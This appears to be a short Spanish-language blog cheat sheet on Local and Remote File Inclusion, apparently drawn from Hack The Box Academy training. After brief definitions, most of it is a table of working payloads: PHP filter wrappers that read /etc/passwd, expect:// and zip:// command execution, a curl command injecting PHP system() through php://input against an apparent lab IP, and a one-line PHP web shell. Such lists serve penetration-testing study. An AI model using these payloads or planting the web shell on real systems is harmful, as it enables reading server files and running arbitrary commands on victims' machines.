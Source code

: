 ```yaml
---
layout: post
title: Cheet Sheet LFI
autor: Lucho
categories: [Cheet Sheet]
---
```


_La vulnerabilidad ‘Local File Inclusion’ permite a un atacante leer un archivo del servidor vulnerable, se produce debido a un error de programación de la pagina._

_La inclusión de archivos locales (LFI) permite a un atacante incluir archivos en un servidor a través del navegador web. Esta vulnerabilidad existe cuando una aplicación web incluye un archivo sin desinfectar correctamente la entrada, lo que permite que un atacante manipule la entrada e inyecte caracteres transversales de ruta e incluya otros archivos del servidor web._

_Remote File Inclusion, su traducción es Inclusión de Archivo Remota. Esta es una vulnerabilidad en la programación web. Puede ser una de las vulnerabilidades más críticas. Esta consiste en utilizar un código maligno almacenado en un host remoto y ejecutarlo en el servidor de la víctima_

![LFI](https://storage.googleapis.com/attackdefense-public.appspot.com/banners/webapp/local-file-inclusion/banner.png)

| **Command** | **Description** |
| --------------|-------------------|
| `php://filter/read=convert.base64-encode/resource=/etc/passwd` | PHP filter to convert file contents to Base64 |
| `php://filter/read=string.rot13/resource=/etc/passwd`          | PHP filter to convert file contents to ROT13 |
| `expect://id`                                                  | Command execution with PHP `Expect` wrapper |
| `curl -s -X POST --data "<?php system('id'); ?>" "http://134.209.184.216:30084/index.php?language=php://input"` | Using PHP `Input` wrapper for command execution |
| `zip://malicious.zip%23exec.php&cmd=id` | Command execution with the PHP `Zip` wrapper |
| `<?php system($_GET['cmd']); ?>` | PHP web shell file contents (i.e., shell.php) |

<br>

## Recursos

[PayloadAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/File%20Inclusion)

[PayloadBox](https://github.com/payloadbox/rfi-lfi-payload-list)

**By [Academy Hack The Box](https://academy.hackthebox.eu/)**